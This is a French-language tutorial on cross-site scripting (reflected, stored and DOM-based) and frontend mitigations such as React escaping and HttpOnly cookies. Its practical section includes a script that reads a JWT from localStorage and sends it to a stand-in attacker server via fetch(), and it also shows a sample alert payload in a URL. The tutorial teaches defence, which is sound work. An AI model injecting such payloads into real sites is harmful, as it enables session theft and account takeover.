

# XSS et Attaques Côté Client (Frontend)

Alors que l'injection SQL attaque la base de données (Backend), le **XSS (Cross-Site Scripting)** s'attaque aux utilisateurs de l'application (Frontend). L'objectif du XSS n'est pas de voler les données du serveur, mais de voler les données du navigateur de l'utilisateur (comme ses cookies de session ou son token JWT).

## 1. Comprendre le XSS

Le XSS se produit lorsqu'une application web permet à un utilisateur de saisir des informations (par exemple dans un commentaire sur un forum) et que le système affiche ensuite ces informations sur l'écran d'autres utilisateurs sans les "assainir" ni les nettoyer.



## 2. Types de XSS

Il existe trois variantes principales que tout pentesteur recherche :

### Reflected XSS (Refléchi)
L'attaque se trouve dans l'URL. L'attaquant vous envoie un lien par e-mail :
`https://banco.com/buscar?q=<script>alert('Hack')</script>`
Si la page prend le paramètre `q` de l'URL et l'affiche directement dans le HTML ("Résultats pour : `<script>...`), votre navigateur l'exécutera instantanément.

### Stored XSS (Stocké - Le plus dangereux)
Le script malveillant est enregistré dans la base de données (ex. dans la description du profil d'un utilisateur ou dans un Tweet). Quiconque visite le profil sera piraté automatiquement, sans avoir besoin de cliquer sur des liens étranges.

### DOM-Based XSS
La vulnérabilité se produit entièrement au sein du code JavaScript du Frontend (ex. React ou Vue). Cela arrive souvent lors de l'utilisation de fonctions dangereuses comme `innerHTML` en Vanilla JS ou `dangerouslySetInnerHTML` en React avec des données contrôlées par l'utilisateur.

## 3. Démonstration Pratique (Vol de Session)

Au lieu d'un inoffensif `alert('Hack')`, un véritable attaquant injecterait ceci dans un commentaire :

```html
<script>
  // Nous volons le Token JWT dans LocalStorage
  const token = localStorage.getItem('access_token');
  // Nous l'envoyons au serveur de l'attaquant silencieusement en arrière-plan
  fetch('https://servidor-del-hacker.com/robar?jwt=' + token);
</script>
```
Lorsque l'Administrateur du site viendra vérifier les commentaires, son navigateur exécutera ce script et l'attaquant obtiendra un accès total en tant qu'Administrateur.

## 4. Atténuation sur le Frontend
* **React est sécurisé par défaut :** Si vous utilisez `{variable}` dans React, le framework échappe automatiquement les caractères dangereux (`<` devient `&lt;`). 
* **Cookies HttpOnly :** Ne stockez jamais un token d'accès critique dans `LocalStorage` ni dans des cookies ordinaires. Conservez-le dans un cookie doté des attributs `HttpOnly` et `Secure`. Cela rend physiquement impossible pour le JavaScript (et donc pour le XSS) de lire le cookie.

Dans le **Niveau Avancé**, nous franchirons une étape supplémentaire en analysant les attaques par falsification de requêtes (CSRF/SSRF) et la manière de tromper les serveurs.
